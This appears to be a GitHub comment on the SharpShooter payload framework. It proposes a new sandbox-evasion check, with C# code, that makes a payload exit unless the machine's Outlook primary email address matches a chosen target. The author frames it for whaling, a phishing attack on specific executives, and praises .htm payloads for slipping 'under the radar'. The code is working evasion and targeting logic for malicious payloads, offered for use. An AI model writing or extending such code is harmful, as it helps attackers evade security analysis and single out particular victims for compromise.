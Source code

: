 Thanks Sharpshooter for providing such a excellent tool to generate payload. File with .htm extension is so much easier to go under the radar.  <br>

Although it comes with sandbox evasion, I may not able to use that 4 built-in techniques to distinguish a well-built sandbox from a normal laptop. Then I realized enterprise email account would be a good identifier, if you are doing whaling. Just add a new Case and ask outlook for primary address, not credential prompt on client-side~~~

In SharpShooter/CSharpShooterStageless/SharpShooter.cs
```
public void CheckPlease(int check, string arg)
  {
      CheckPlease cp = new CheckPlease();
      switch(check)
      {
          case 0:
              if (!cp.isDomain(arg)) Environment.Exit(1);
              break;
          case 1:
              if (!cp.isDomainJoined()) Environment.Exit(1);
              break;
          case 2:
              if (cp.containsSandboxArtifacts()) Environment.Exit(1);
              break;
          case 3:
              if (cp.isBadMac()) Environment.Exit(1);
              break;
          case 4:
              if (cp.isDebugged()) Environment.Exit(1);
              break;
          case 5:
              if (!cp.isDesignatedEmail(arg)) Environment.Exit(1);
              break;
      }
  }
```

In SharpShooter/CSharpShooterStageless/CheckPlease.cs

```
public bool isDesignatedEmail(String input)
{
    if ((new Outlook.Application()).Session.Accounts[1].SmtpAddress.Equals(input))
    { return true;}
    else { return false; }
}
``` 
